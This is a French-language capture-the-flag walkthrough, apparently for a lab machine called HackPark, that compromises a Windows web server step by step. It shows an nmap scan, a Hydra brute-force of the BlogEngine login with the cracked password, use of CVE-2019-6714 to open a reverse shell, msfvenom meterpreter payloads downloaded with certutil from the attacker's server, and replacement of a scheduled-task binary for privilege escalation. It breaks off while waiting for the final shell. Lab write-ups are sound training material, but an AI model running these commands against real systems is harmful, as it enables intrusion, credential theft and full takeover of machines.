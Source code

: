 # Task 1 

Commencer par scanner les ports disponibles avec un nmap

``` nmap -sS -sV -Pn [IP_MACHINE] ```
 
** PORT     STATE SERVICE **
** 80/tcp   open  http ** 
** 3389/tcp open  ms-wbt-server ** 

## Whats the name of the clown displayed on the homepage?

Télécharger l'image 
Faire une recherche google Lens 

**pennywise** 

# Task 2
## What request type is the Windows website login form using?

Faire un click droit sur l'élement "Save Comment"
Aller sur le petit encart "Event" et regarder la méthode d'envoi 

ou 

Regarder l'URL 

**POST** 

## Guess a username, choose a password wordlist and gain credentials to a user account!

```hydra -l <username> -P /usr/share/wordlists/<wordlist> [IP_MACHINE] http-post-form ```

Dans un premier temps, faire un premier essai avec aun username et mdp bidon "admin:admin" pour avoir un champ "Login failed", ensuite aller inspecter la requête :

Sur Firefox : 

Clic droit > Inspect > Network > Reload > [Selectionner la requête POST] > Request > Raw > Select All > Copier 

Remplacer les valeurs "username" et "password" par ^USER^ & ^PASS^ 

Ce qui donne la commande : 

``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.12.103 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=IL%2Fw%2BMLR5jEVI0yJkC%2BYgcY4FTz8AUiWho9zztyLZvCK38j8JdiBB3P0PIgGoYwKgtcjaRuRt5esdx3TKFKE7Rjd3PTIslqODQy7kgpD0yB6z4tQwNh%2FwXjJ5USFcRAkTYY5u4oAtzlaO6osFJAIZgtomK%2BjBWyHSUFAIX4lkO9NVPaQQtm%2FFVNDMLeJIua5XSXvqClwl8u8Fz5eW%2FlCSgnrW1ruj2qNPUuIDdZxFgguE3MNrAt1c3R19YDxzDOCv0tDX1Pygytakpsm61HW4QBuL0TgVYtZj28O4sCxw7xOLbnhzqclaFUFXYCTq4Ypi98gXotUFkM9xo6hZ8e9v6pAdbUAfNCUvSEaUtqooVCFO2M1&__EVENTVALIDATION=2ybWsbTEu6xcRITPtJw%2Bx9iETJ40YkYhtLy8NgsEDvpUllAR699UdRX0LmwYwzbTLpx18XTuQofMWxiGVtQJKDyhRtPVk%2FxqnLrG68XcXO6MtO4ucNeUI4P7%2BKm6KKluCE6fA7qJ1gmVdboaYXgO%2BZor6XltI4PNYJbGcXQgI7aghExT&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" ```
 
** [80][http-post-form] host: 10.10.12.103   login: admin   password: 1qaz2wsx ** 

# Task 3
## Now you have logged into the website, are you able to identify the version of the BlogEngine?

Menu Gauche > About 

** Version: 3.3.6.0 ** 

## Whats is the CVE 

Aller sur Exploit DB > Chercher " BlogEngine.NET 3.3.6 " > Regarder celle l'exploit vérifié > "BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution "

** CVE-2019-6714 ** 

## Who is the webserver running as?

Télécharger l'exploit 

Modifier la ligne 51 pour y rajouter notre IP 
``` using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("[IP_VPN]", 4445)) { ```

Changer l'extension par ``` .acsx ```

Lancer un listener sur le port 4445
``` nc -lvnp 4445 ```

Aller sur la page pour éditer le post déjà présent

Ajouter l'exploit  au file manager 

NE PAS FERMER LA FENÊTRE 

Une fois que l'exploit est chargé, se rendre sur la page suivante : 

[IP_MACHINE]/?theme=../../App_Data/files

Une erreur devraît apparaitre et un shell devrait être lancé sur le listener. 

Lancer la commande : 

``` 
whoami 

c:\windows\system32\inetsrv>whoami                                                                                  

iis apppool\blog 

```
** iis apppool\blog **

NE PAS QUITTER LE TERMINAL 

# Task 4 

## What is the OS version of this windows machine?
Se rendre sur le dossier C:\Windows\Temp
``` cd C:\Windows\Temp ```

Charger un revershell qui sera executé sur la machine distante 

``` msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.94.166 LPORT=4445 -f exe -o shell.exe ```

Lancer un serveur python
``` python3 -m http.server ```

Lancer Mestasploit et générer un méterpreter 

``` 
msfconsole 	 
use exploit/multi/handling 
set lhost 10.18.94.166
set lport 4445
set payload windows/meterpreter/reverse_tcp 
run 
```
Télécharger le fichier sur la machine cible 

``` certutil.exe -urlcache -f http://10.18.94.166:8000/shell.exe shell.exe  ```

Une fois le fichier télécharger, il faut l'executer :
``` shell.exe ```

Le meterpreter doit être en place maintenant.

Récupérer les informations de l'ordianteur : 
```sysinfo

Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
** OS              : Windows 2012 R2 (6.3 Build 9600). ** 

## What is the name of the abnormal service running?

Utiliser la commande pour voir tous les services en cours :  ``` ps ```

On peut voir que le service de tâche répétées est activé Wscheduler 

**WindowsScheduler**

## What is the name of the binary you're supposed to exploit? 

ouvrir un shell dans le meterpreter avec la commande 
``` shell```

Se rendre dans le fichier C:\Program Files (x86)\SystemScheduler\Events
``` cd C:\Program Files (x86)\SystemScheduler\Events```

Afficher le contenu du fichier de log.txt "20198415519.INI_LOG.txt"
``` type 20198415519.INI_LOG.txt ```

On peut voir que le fichier Message.exe est tout le temps executer par l'administrateur via le Scheduler donc le binaire supposé à exploité est celui ci : 
**Message.exe** 

## What is the user flag (on Jeffs Desktop)?

Créer un revershell avec le nom suivant "Message.txt"
``` msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.94.166 LPORT=1234 -f exe -o Message.exe ```

Revenir un dossier en arrière : 
``` cd ..```

Modifier le nom du fichier principal concerné 
```MOVE Message.exe Message.old ```

Télécharger le fichier sur la machine distante à l'ide d'un powershell
``` certutil.exe -urlcache -f http://10.18.94.166:8000/Message.exe Message.exe  ```

Lancer un listener sur le port 1234
``` nc -lvnp 1234```

Attendre que la tâche se déclenche et que le revershell se lance 
